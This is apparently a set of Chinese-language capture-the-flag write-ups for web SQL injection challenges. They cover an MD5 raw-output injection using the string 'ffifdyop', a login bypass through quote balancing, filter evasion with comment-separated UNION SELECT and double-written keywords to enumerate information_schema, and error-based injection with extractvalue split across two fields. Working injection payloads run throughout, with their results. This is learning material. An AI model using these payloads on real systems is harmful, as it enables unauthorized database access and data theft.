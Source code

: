 ### Writeup for 后台登陆

注释中给出了后台PHP对password的执行过程

```PHP
$password=$_POST['password'];
$sql = "SELECT * FROM admin WHERE username = 'admin' and password = '".md5($password,true)."'";
$result=mysqli_query($link,$sql);
if(mysqli_num_rows($result)>0){
    echo 'flag is :'.$flag;
}
else{
	echo '密码错误!';
}
```

重点看一下SQL的构造

```PHP
$sql = "SELECT * FROM admin WHERE username = 'admin' and password = '".md5($password,true)."'";
// 注意这里'.是字符串拼接操作，md5这部分是可执行的
```

这里逻辑很清楚：需要检查`username='admin'`并且密码匹配的记录，也就是必须输入正确密码才能得到`flag`, 不过这里的SQL语句对用户输入很明显没有任何的过滤，考虑是否可能构造SQL注入。这里涉及到的操作是**MD5注入**(Injection inside MD5), 也就是需要构造一个输入使得其MD5之后的结果能够实现注入，这里我们（通过暴力搜索）可以得到一个很特别的字符串：

`md5('ffifdyop') = 'or'6É]é!`

md5后的结果恰好含有`'or'`！所以我们把这个字符串扔进去就可以实现SQL注入。





### Writeup for 登陆一下好吗??

尝试构造`' or '1`发现会被过滤掉，注意到两个字段均可以控制，尝试不含有`or`的构造`1'='0`或`'='`均可行.（这里机制暂时仍然不明确）







### WriteUp for 简单的sql注入

输入常规数据1,2,3发现有id和name数据，到4以后就没有id和name返回给前端了，但如果输入`1 1`仍然会返回和输入1相同的`name: baloteli`, 这暗示我们后台在取值时，如果用户输入有使用空格分隔的话，实际上是只取第一个字符串的。

输入一些sql关键字测试是否存在关键字过滤，例如构造输入`1 select from and or`（为什么第一个字符要写一个1？由于之前测试只找到1,2,3在数据库中有对应的值，因此即使不存在过滤，如果只构造`select from and or`数据库中由于没有`select`这个字段因而前端不会返回任何东西，所以必须扔一个1来保证前端有提示），发现`id`被过滤掉只剩下`1 or`, 中间的所有都被过滤了，这意味着什么呢？换个顺序测试一下发现`1 or and select from` 剩下的是`1 from`, 这意味着中间的东西会被过滤而两端的则不会，但"中间""两端"这种模糊用词要如何准确化呢？正则的经验告诉我们这可能和关键字之前和之后的空格有关，那么我们接着对空格进行测试：

构造输入`1 and1 from 2and or`（注意这里构造的技巧：保证存在三个关键字模式，分别满足仅前面有空格、前后都有空格、以及之后有空格）, 发现id剩下`1 and1 2or`, 这无疑意味着被关键模式是后部空格. 至此，我们可以确定这里被过滤掉的模式是`关键字+空格`. 

我们知道对于关键字过滤的应对方式无非是双写和注释，而对空格过滤的应对方式则有加号和注释。这里很显然只要不存在空格就匹配不到`关键字+空格`模式， 因此只需要使用注释来替代空格就好.



为了构造之后的注入语句，我们先写一下后台的sql语句的格式，大致应当是这样的形式

```sql
SELECT * FROM database where id = 'id'
```

这里`id`就是我们的输入.

现在我们完成了前期的过滤测试工作，接下来就是经典的`database->table->column->data`路线了：首先我们需要获得表名，于是构造`id`

```sql
'UNION/**/SELECT/**/database()'
```

注意到这里需要利用union来将前后的`SELECT`语句划分开，使得我们自己的`SELECT`子句成为一个独立的查询而不会受前面的影响，这样构造之后的查询语句成为

```sql
SELECT * FROM database where id = '' UNION SELECT database() ''
```

这里最后多了一个单引号似乎有些奇怪，但是实验发现确实是不影响结果的，所以就单纯闭合掉就行。

拿到了数据库名`web1`之后通常自然需要接下来爆表名，于是构造`id`为

```sql
'union/**/select/**/table_name from/**/information_schema.tables/**/where/**/table_schema/**/='web1
```

但是这时候突然出现了语法错误，经过测试知道`table_schema`这个关键字被强制过滤了（和前面的关键字+空格不同，这个是直接匹配过滤的），那么接下来要怎么办呢？干脆就不用这个关键字好了，把所有的表都给爆出来

```sql
'union/**/select/**/table_name from/**/information_schema.tables/**/where'1'='1
```

注意到这里最后闭合`'`是必须用where子句的，和前面不同（前面`SELECT database()`用`where`子句反而会出问题），似乎是两个查询语句不同语法规则限制的问题。

在得到的所有表中我们发现有一个叫做`flag`的，于是我们继续对这个表爆字段，构造`id`为：

```sql
'union/**/select/**/column_name/**/from/**/information_schema.columns/**/where/**/table_name/**/='flag
```

返回页面信息为

```html
<pre>You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'from/**//**/where/**/table_name/**/='flag'' at line 1</pre>
```

看起来似乎连`column_name`和`information_schema.columns`都被滤掉了（之前字段`information_schema.tables`并没有被这么严苛地滤掉，看起来真的是越到后面的步骤要用到的绕过方法越多了orz），考虑一下用交叉双写：

```sql
'union/**/select/**/column_nacolumn_nameme/**/from/**/information_scheminformation_schema.columnsa.columns/**/where/**/table_name/**/='flag
```

成功得到字段名

```html
<pre>ID:'union/**/select/**/column_name/**/from/**/information_schema.columns/**/where/**/table_name/**/='flag
<br>name: flag
</pre>
<pre>ID:'union/**/select/**/column_name/**/from/**/information_schema.columns/**/where/**/table_name/**/='flag
<br>name: id
</pre>
```

字段名也是`flag`. 这意味着我们需要从数据库里找`flag`表地`flag`字段，构造语句

```sql
'union/**/select/**/flag/**/from/**/flag/**/where/**/'1'='1
```

得到返回值

```html
<pre>ID: 'union/**/select/**/flag from/**/flag where/**/'1'='1
<br>name: flag{Y0u_@r3_5O_dAmn_90Od}
</pre>
```







### Writeup for 加了料的报错注入

先对两个注入点进行测试，寻找可能的过滤模式：

正常情况下（`username=123`, `password=123`）返回页面信息为Login failed

`username`存在`--`时，或者写成`'or'1'='1`会被直接检测到sql injection.
由于题目提示报错注入，尝试报错注入，在`username`和`password`中构造报错语句，但在`username`中写报错语句会返回`User name unknow error.` 在`password`中写报错语句会返回`Unknown password error.`进一步的测试表明：`username`会检测到括号，而`password`会检测到报错函数名，既然我们已经同时掌握了二者，那么我们可以通过注释的方式避免掉中间其他字符的影响，从而将两方面的检测漏洞结合起来实现报错注入的效果：

构造username为`'or extractvalue /*`, 构造password为`*/(1, concat(0x5c, (select database()))) or '`, 使得最后构造出的sql查询语句成为

```sql
username = '' or extractvalue /* ' and password = ' */ (1, concat(0x5c, select database())) or ''
```

这里似乎不需要去可以规避惰性求值的问题：即使构造使得前面部分为`username = '1' or`而非空字符串，后面的报错语句也仍然会被执行.

在数据库结构完全未知的情况下，数据的获取显然需要通过数据库名->表名->字段名->数据一步一步来获取，在获得了数据库名为`error_based_hpf`之后就需要逐步沿着这条思路往下在concat的第二个参数中构造相应的sql语句

```sql
SELECT group_concat(table_name) FROM information_schema.tables WHERE table_schema regexp 'error_based_hpf'
```

注意到这里有一个小trick: 在输入中等号会被过滤掉，因而使用`regexp`绕过

获得`error_based_hpf`库中的表名：`ffll44jj`, `users`. 显然这里的`ffll44jj`是数据表，继续爆字段名：

```sql
SELECT group_concat(column_name) FROM information_schema.columns where table_name regexp 'ffll44jj'
```

得到字段名`value`， 从而

```sql
SELECT value FROM ffll44jj
```

得到`flag{err0r_b4sed_sqli_+_hpf}`